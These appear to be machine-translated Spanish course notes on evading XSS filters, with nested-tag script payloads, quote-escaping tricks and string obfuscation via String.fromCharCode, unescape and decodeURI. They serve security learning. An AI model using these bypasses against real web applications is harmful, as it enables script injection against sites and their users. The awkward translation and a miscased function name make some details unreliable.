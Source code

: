 ### Removing HTML tags

El cheque no se realiza recursivamente:

```js
<scr<script>ipt>alert(1)</script> # this could be a bypass
```

Si el filtro realiza comprobaciones recursivas, todavía podemos pasar el bypass. tal vez cambiando el orden de las cuerdas inyectadas.

```js
<scr<iframe>ipt>alert(1)</script> //this could be a bypass
```

* todo depende del filtro que estamos enfrentando

→ moreover: https://els-cdn.content-api.ine.com/eda3ac9d-554a-469a-98c6-639c90f0c7a5/index.html#

### Escaping Quotes

* Los filtros colocan la barra de fondo char \*\*\*\* antes de las citas para escapar de ese tipo de carácter

Example:

```js
randomkey\' alert(1);  # escape the apostrophe
randomkey\\' alert(1); # escape the backslash
```

Uno de los métodos Javascript útiles es:

```js
String.fromCharCode()
```

Nos permite generar cuerdas a partir de una secuencia de valores de Unicode:

```js
String.fromCharCode(120,115,9416)

# u+0078 Latin Small Letter x
# u+0073 Latin small Letter s
# u+24C8 Circled Latin capital letter (S)
```

```js
/your string/.source  //space allowed
43804..toString(36)   //spaces not allowed in Base36
```

Utilizando el método de unscape:

```js
unescape(/%78%u0073%73/.source) //its deprecated
```

Usando decodeURI y decodificandoURIComponent:

```js
# in this case, characters needs to be URL-encoded to avoid URI malformed errors

decodeURI(/alert(%22xss%22)/.source)
decodeURIcomponent(/alert(%22xss%22)/.source)
```
